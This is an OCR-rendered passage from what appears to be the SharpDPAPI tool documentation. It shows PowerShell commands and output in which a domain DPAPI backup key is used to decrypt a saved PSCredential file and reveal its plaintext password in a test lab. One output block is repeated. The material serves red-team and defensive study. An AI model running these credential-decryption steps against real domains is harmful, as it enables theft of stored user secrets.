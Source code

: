 
    [*] Action: Describe PSCredential .xml

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

        CredFile         : C:\Temp\cred.xml
        Accessed         : 7/25/2019 12:04:12 PM
        Modified         : 7/25/2019 12:04:12 PM
        User Name        : TESTLAB\user
        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 170
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        Password         : Password123!


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    PS C:\Temp> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    PS C:\Temp> New-Object System.Management.Automation.PSCredential('TESTLAB\user', $SecPassword) | Export-CLIXml C:\Temp\cred.xml
    PS C:\Temp> .\SharpDPAPI.exe ps /target:C:\Temp\cred.xml /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe PSCredential .xml

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

        CredFile         : C:\Temp\cred.xml
        Accessed         : 7/25/2019 12:04:12 PM
        Modified         : 7/25/2019 12:04:12 PM
        User Name        : TESTLAB\user
        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 170
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        Password         : Password123!


#### blob
